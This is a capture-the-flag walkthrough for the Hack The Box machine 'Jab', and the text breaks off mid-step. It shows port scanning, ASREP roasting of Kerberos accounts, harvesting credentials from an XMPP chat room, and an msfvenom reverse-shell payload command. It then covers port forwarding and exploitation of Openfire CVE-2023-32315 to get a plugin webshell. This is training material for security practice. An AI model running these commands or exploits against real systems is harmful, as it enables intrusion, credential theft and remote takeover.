<h1 align="center"> Jab </h1>

<p align="center">
    <a href="https://app.hackthebox.com/machines/589">
        
    </a>
</p>

## Table of Contents

1. [Service Enumeration](#1-recon)
2. [XMPP](#2-xmpp)
3. [Privilege Escalation](#4-user-to-root)
4. [Pwned Info](#pwned-info)

## 1. Recon

```bash
└─$ nmap -sC -sV -oA nmap/initial 10.10.11.4
Nmap scan report for 10.10.11.4
Host is up (0.13s latency).
Not shown: 986 closed tcp ports (conn-refused)
PORT     STATE SERVICE             VERSION
53/tcp   open  domain              Simple DNS Plus
88/tcp   open  kerberos-sec        Microsoft Windows Kerberos (server time: 2024-02-25 11:26:07Z)
135/tcp  open  msrpc               Microsoft Windows RPC
139/tcp  open  netbios-ssn         Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http          Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap                Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.jab.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.jab.htb
| Not valid before: 2023-11-01T20:16:18
|_Not valid after:  2024-10-31T20:16:18
|_ssl-date: 2024-02-25T11:26:59+00:00; +2s from scanner time.
3269/tcp open  ssl/ldap            Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.jab.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.jab.htb
| Not valid before: 2023-11-01T20:16:18
|_Not valid after:  2024-10-31T20:16:18
|_ssl-date: 2024-02-25T11:26:57+00:00; +2s from scanner time.
5222/tcp open  jabber
| ssl-cert: Subject: commonName=dc01.jab.htb
| Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
| Not valid before: 2023-10-26T22:00:12
|_Not valid after:  2028-10-24T22:00:12
| fingerprint-strings: 
|   RPCCheck: 
|_    <stream:error xmlns:stream="http://etherx.jabber.org/streams"><not-well-formed xmlns="urn:ietf:params:xml:ns:xmpp-streams"/></stream:error></stream:stream>
|_ssl-date: TLS randomness does not represent time
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     xmpp: 
|       version: 1.0
|     stream_id: 86u1elkwf8
|     unknown: 
|     auth_mechanisms: 
|     capabilities: 
|     features: 
|     errors: 
|       invalid-namespace
|       (timeout)
|_    compression_methods: 
5269/tcp open  xmpp                Wildfire XMPP Client
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     xmpp: 
|     features: 
|     auth_mechanisms: 
|     unknown: 
|     capabilities: 
|     errors: 
|       (timeout)
|_    compression_methods: 
7070/tcp open  realserver?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP: 
|     HTTP/1.1 400 Illegal character CNTL=0x0
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x0</pre>
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Sun, 25 Feb 2024 11:26:07 GMT
|     Last-Modified: Wed, 16 Feb 2022 15:55:02 GMT
|     Content-Type: text/html
|     Accept-Ranges: bytes
|     Content-Length: 223
|     <html>
|     <head><title>Openfire HTTP Binding Service</title></head>
|     <body><font face="Arial, Helvetica"><b>Openfire <a href="http://www.xmpp.org/extensions/xep-0124.html">HTTP Binding</a> Service</b></font></body>
|     </html>
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Sun, 25 Feb 2024 11:26:13 GMT
|     Allow: GET,HEAD,POST,OPTIONS
|   Help: 
|     HTTP/1.1 400 No URI
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 49
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: No URI</pre>
|   RPCCheck: 
|     HTTP/1.1 400 Illegal character OTEXT=0x80
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 71
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character OTEXT=0x80</pre>
|   RTSPRequest: 
|     HTTP/1.1 505 Unknown Version
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 58
|     Connection: close
|     <h1>Bad Message 505</h1><pre>reason: Unknown Version</pre>
|   SSLSessionReq: 
|     HTTP/1.1 400 Illegal character CNTL=0x16
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 70
|     Connection: close
|_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x16</pre>
7443/tcp open  ssl/oracleas-https?
| ssl-cert: Subject: commonName=dc01.jab.htb
| Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
| Not valid before: 2023-10-26T22:00:12
|_Not valid after:  2028-10-24T22:00:12
|_ssl-date: TLS randomness does not represent time
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP: 
|     HTTP/1.1 400 Illegal character CNTL=0x0
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x0</pre>
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Sun, 25 Feb 2024 11:26:13 GMT
|     Last-Modified: Wed, 16 Feb 2022 15:55:02 GMT
|     Content-Type: text/html
|     Accept-Ranges: bytes
|     Content-Length: 223
|     <html>
|     <head><title>Openfire HTTP Binding Service</title></head>
|     <body><font face="Arial, Helvetica"><b>Openfire <a href="http://www.xmpp.org/extensions/xep-0124.html">HTTP Binding</a> Service</b></font></body>
|     </html>
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Sun, 25 Feb 2024 11:26:20 GMT
|     Allow: GET,HEAD,POST,OPTIONS
|   Help: 
|     HTTP/1.1 400 No URI
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 49
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: No URI</pre>
|   RPCCheck: 
|     HTTP/1.1 400 Illegal character OTEXT=0x80
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 71
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character OTEXT=0x80</pre>
|   RTSPRequest: 
|     HTTP/1.1 505 Unknown Version
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 58
|     Connection: close
|     <h1>Bad Message 505</h1><pre>reason: Unknown Version</pre>
|   SSLSessionReq: 
|     HTTP/1.1 400 Illegal character CNTL=0x16
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 70
|     Connection: close
|_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x16</pre>
7777/tcp open  socks5              (No authentication; connection not allowed by ruleset)
| socks-auth-info: 
|_  No authentication
3 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5222-TCP:V=7.94SVN%I=7%D=2/25%Time=65DB23E2%P=x86_64-pc-linux-gnu%r
SF:(RPCCheck,9B,"<stream:error\x20xmlns:stream=\"http://etherx\.jabber\.or
SF:g/streams\"><not-well-formed\x20xmlns=\"urn:ietf:params:xml:ns:xmpp-str
SF:eams\"/></stream:error></stream:stream>");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port7070-TCP:V=7.94SVN%I=7%D=2/25%Time=65DB23CD%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,189,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Sun,\x2025\x20Feb\x
SF:202024\x2011:26:07\x20GMT\r\nLast-Modified:\x20Wed,\x2016\x20Feb\x20202
SF:2\x2015:55:02\x20GMT\r\nContent-Type:\x20text/html\r\nAccept-Ranges:\x2
SF:0bytes\r\nContent-Length:\x20223\r\n\r\n<html>\n\x20\x20<head><title>Op
SF:enfire\x20HTTP\x20Binding\x20Service</title></head>\n\x20\x20<body><fon
SF:t\x20face=\"Arial,\x20Helvetica\"><b>Openfire\x20<a\x20href=\"http://ww
SF:w\.xmpp\.org/extensions/xep-0124\.html\">HTTP\x20Binding</a>\x20Service
SF:</b></font></body>\n</html>\n")%r(RTSPRequest,AD,"HTTP/1\.1\x20505\x20U
SF:nknown\x20Version\r\nContent-Type:\x20text/html;charset=iso-8859-1\r\nC
SF:ontent-Length:\x2058\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Message\
SF:x20505</h1><pre>reason:\x20Unknown\x20Version</pre>")%r(HTTPOptions,56,
SF:"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Sun,\x2025\x20Feb\x202024\x2011:26:
SF:13\x20GMT\r\nAllow:\x20GET,HEAD,POST,OPTIONS\r\n\r\n")%r(RPCCheck,C7,"H
SF:TTP/1\.1\x20400\x20Illegal\x20character\x20OTEXT=0x80\r\nContent-Type:\
SF:x20text/html;charset=iso-8859-1\r\nContent-Length:\x2071\r\nConnection:
SF:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\
SF:x20character\x20OTEXT=0x80</pre>")%r(DNSVersionBindReqTCP,C3,"HTTP/1\.1
SF:\x20400\x20Illegal\x20character\x20CNTL=0x0\r\nContent-Type:\x20text/ht
SF:ml;charset=iso-8859-1\r\nContent-Length:\x2069\r\nConnection:\x20close\
SF:r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\x20charact
SF:er\x20CNTL=0x0</pre>")%r(DNSStatusRequestTCP,C3,"HTTP/1\.1\x20400\x20Il
SF:legal\x20character\x20CNTL=0x0\r\nContent-Type:\x20text/html;charset=is
SF:o-8859-1\r\nContent-Length:\x2069\r\nConnection:\x20close\r\n\r\n<h1>Ba
SF:d\x20Message\x20400</h1><pre>reason:\x20Illegal\x20character\x20CNTL=0x
SF:0</pre>")%r(Help,9B,"HTTP/1\.1\x20400\x20No\x20URI\r\nContent-Type:\x20
SF:text/html;charset=iso-8859-1\r\nContent-Length:\x2049\r\nConnection:\x2
SF:0close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20No\x20URI</
SF:pre>")%r(SSLSessionReq,C5,"HTTP/1\.1\x20400\x20Illegal\x20character\x20
SF:CNTL=0x16\r\nContent-Type:\x20text/html;charset=iso-8859-1\r\nContent-L
SF:ength:\x2070\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</
SF:h1><pre>reason:\x20Illegal\x20character\x20CNTL=0x16</pre>");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port7443-TCP:V=7.94SVN%T=SSL%I=7%D=2/25%Time=65DB23D4%P=x86_64-pc-linux
SF:-gnu%r(GetRequest,189,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Sun,\x2025\x2
SF:0Feb\x202024\x2011:26:13\x20GMT\r\nLast-Modified:\x20Wed,\x2016\x20Feb\
SF:x202022\x2015:55:02\x20GMT\r\nContent-Type:\x20text/html\r\nAccept-Rang
SF:es:\x20bytes\r\nContent-Length:\x20223\r\n\r\n<html>\n\x20\x20<head><ti
SF:tle>Openfire\x20HTTP\x20Binding\x20Service</title></head>\n\x20\x20<bod
SF:y><font\x20face=\"Arial,\x20Helvetica\"><b>Openfire\x20<a\x20href=\"htt
SF:p://www\.xmpp\.org/extensions/xep-0124\.html\">HTTP\x20Binding</a>\x20S
SF:ervice</b></font></body>\n</html>\n")%r(HTTPOptions,56,"HTTP/1\.1\x2020
SF:0\x20OK\r\nDate:\x20Sun,\x2025\x20Feb\x202024\x2011:26:20\x20GMT\r\nAll
SF:ow:\x20GET,HEAD,POST,OPTIONS\r\n\r\n")%r(RTSPRequest,AD,"HTTP/1\.1\x205
SF:05\x20Unknown\x20Version\r\nContent-Type:\x20text/html;charset=iso-8859
SF:-1\r\nContent-Length:\x2058\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20M
SF:essage\x20505</h1><pre>reason:\x20Unknown\x20Version</pre>")%r(RPCCheck
SF:,C7,"HTTP/1\.1\x20400\x20Illegal\x20character\x20OTEXT=0x80\r\nContent-
SF:Type:\x20text/html;charset=iso-8859-1\r\nContent-Length:\x2071\r\nConne
SF:ction:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Il
SF:legal\x20character\x20OTEXT=0x80</pre>")%r(DNSVersionBindReqTCP,C3,"HTT
SF:P/1\.1\x20400\x20Illegal\x20character\x20CNTL=0x0\r\nContent-Type:\x20t
SF:ext/html;charset=iso-8859-1\r\nContent-Length:\x2069\r\nConnection:\x20
SF:close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\x20c
SF:haracter\x20CNTL=0x0</pre>")%r(DNSStatusRequestTCP,C3,"HTTP/1\.1\x20400
SF:\x20Illegal\x20character\x20CNTL=0x0\r\nContent-Type:\x20text/html;char
SF:set=iso-8859-1\r\nContent-Length:\x2069\r\nConnection:\x20close\r\n\r\n
SF:<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\x20character\x20C
SF:NTL=0x0</pre>")%r(Help,9B,"HTTP/1\.1\x20400\x20No\x20URI\r\nContent-Typ
SF:e:\x20text/html;charset=iso-8859-1\r\nContent-Length:\x2049\r\nConnecti
SF:on:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20No\x2
SF:0URI</pre>")%r(SSLSessionReq,C5,"HTTP/1\.1\x20400\x20Illegal\x20charact
SF:er\x20CNTL=0x16\r\nContent-Type:\x20text/html;charset=iso-8859-1\r\nCon
SF:tent-Length:\x2070\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Message\x2
SF:0400</h1><pre>reason:\x20Illegal\x20character\x20CNTL=0x16</pre>");
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 1s
| smb2-time: 
|   date: 2024-02-25T11:26:50
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 25 12:26:59 2024 -- 1 IP address (1 host up) scanned in 85.03 seconds
```

## 2. XMPP

As can be seen from the nmap results, the machine runs the [XMPP](https://xmpp.org/it/) protocol. Looking for a way to interact with this protocol, I found a software called [Pidgin](https://www.pidgin.im/).

After installing, you need to create a user.

<p align="center">
  
</p>

After connecting, in the Tools tab, we can see the room list.

<p align="center">
  
</p>

The following window opens automatically.

<p align="center">
  
</p>

By clicking on "*Find Rooms*" and then "*Get List*", we discover the existence of two rooms.

<p align="center">
  
</p>

Since there was nothing interesting in the rooms, I looked for other options, finding a way to search for users in the Accounts tab.

<p align="center">
  
</p>

The following window opens automatically.

<p align="center">
  
</p>

By clicking "*Search Directory*" we can perform an advanced search.

<p align="center">
  
</p>

The result is the following list of users.

<p align="center">
  
</p>

Not having much information and knowing that Kerberos is present, I performed the [ASRep Roasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast) using [impacket](https://github.com/fortra/impacket) with the following command:

`impacket-GetNPUsers jab.htb/ -usersfile /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -format hashcat -outputfile hash`

After a while we have results.

<p align="center">
  
</p>

So we can cracked the hash.

<p align="center">
  
</p>

With this credentials we can add the new user and after that we can have the room list.

<p align="center">
  
</p>

Analyzing the content of the room called *pentest2003* we have the credentials of *svc_openfire*.

<p align="center">
  
</p>

Searching for a way to perform a lateral movement, I found a [HackTricks article](https://book.hacktricks.xyz/windows-hardening/lateral-movement/dcom-exec), implementing it via an impacket specific class as shown in the figure below.

<p align="center">
  
</p>

In *C:\Users\svc_openfire\Desktop* there is the user flag.

## 3. User to ROOT

To have a better interaction, I used [msfvenom](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom) to create an exe for the shell.

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=1234 -f exe -o shell`

In parallel I used msfconsole.

Starting to look for information, specifically services running in localhost, I found two ports, 9090 and 9091.

```powershell
PS C:\Users\svc_openfire\Downloads> netstat -ano | findstr '127.0.0.1:' | findstr 'LISTENING'
    tcp    127.0.0.1:53      0.0.0.0:*          LISTEN       0     0      2812/dns.exe
    tcp    127.0.0.1:9090    0.0.0.0:*          LISTEN       0     0      3348/openfire-service.exe
    tcp    127.0.0.1:9091    0.0.0.0:*          LISTEN       0     0      3348/openfire-service.exe
```

To verify the exposed service, I did port forwarding via meterpreter with the command: `meterpreter > portfwd add –l 9091 –p 9091 –r 127.0.0.1`.

<p align="center">
  
</p>

Trying the credentials of *svc_openfire*, we can login.

<p align="center">
  
</p>

I started looking for some exploits for Openfire and found [CVE-2023-32315](https://nvd.nist.gov/vuln/detail/CVE-2023-32315) which allows RCE. So I found a [repository](https://github.com/miko550/CVE-2023-32315) that explains step by step how to perform the attack.

1. Run the exploit: `python CVE-2023-32315.py -t http://127.0.0.1:9090`

2. Goto the plugin page and upload plugin *openfire-management-tool-plugin.jar*
<p align="center">
  
</p>

3. Goto tab Server > Server Settings > Management tool > Access websehll with password *123*
<p align="center">
